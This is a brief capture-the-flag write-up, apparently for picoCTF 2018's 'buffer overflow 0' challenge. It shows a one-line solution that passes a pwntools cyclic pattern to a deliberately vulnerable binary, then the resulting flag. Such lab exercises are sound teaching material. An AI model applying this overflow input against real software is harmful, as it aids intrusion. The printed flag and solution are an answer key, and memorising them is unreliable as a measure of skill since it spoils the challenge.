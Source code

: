 # buffer overflow 0
Binary Exploitation - 150 points

## Challenge 
> Let's start off simple, can you overflow the right buffer in this [program](vuln) to get the flag? You can also find it in /problems/buffer-overflow-0_3_d5263c5219b334339c34ac35c51c4a17 on the shell server

[Source](vuln.c)

## Solution

	zst123@pico-2018-shell-2:/problems/buffer-overflow-0_3_d5263c5219b334339c34ac35c51c4a17$ ./vuln $(pwn cyclic 100)
	picoCTF{ov3rfl0ws_ar3nt_that_bad_2d11f6cd}
